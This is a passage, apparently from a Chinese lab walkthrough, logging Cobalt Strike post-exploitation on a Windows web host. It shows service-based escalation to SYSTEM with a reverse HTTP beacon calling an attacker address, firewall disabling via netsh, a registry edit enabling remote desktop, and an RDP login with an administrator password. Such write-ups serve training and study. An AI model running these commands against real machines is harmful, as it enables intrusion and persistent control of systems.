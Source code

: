     ```python
    beacon> elevate svc-exe HTTP-80
    [*] Tasked beacon to run windows/beacon_http/reverse_http (192.168.111.150:80) via Service Control Manager (\\127.0.0.1\ADMIN$\722628d.exe)
    [+] host called home, sent: 313305 bytes
    [+] received output:
    Started service 722628d on .
    ```
    
    提权成功，多出来一个会话，是`system`权限的
    
    ![image.png](image%2028.png)
    

### web主机远程桌面

1. 关闭防火墙（提权后第一件要做的事）
    
    ```python
    beacon> shell netsh advfirewall set allprofiles state off
    [*] Tasked beacon to run: netsh advfirewall set allprofiles state off
    [+] host called home, sent: 74 bytes
    确定。
    ```
    
2. 注册表开启远程桌面
    
    ```python
    beacon> shell REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
    [*] Tasked beacon to run: REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
    [+] host called home, sent: 144 bytes
    [+] received output:
    操作成功完成
    ```
    
3. 连接远程桌面
    
    ```python
    proxychains rdesktop 192.168.111.80 -p 1qaz@WSX -u administrator
    ```
    
    登录 `de1ay\administrator` 时，需要更改新密码，我们将它修改为`Aa118811`
    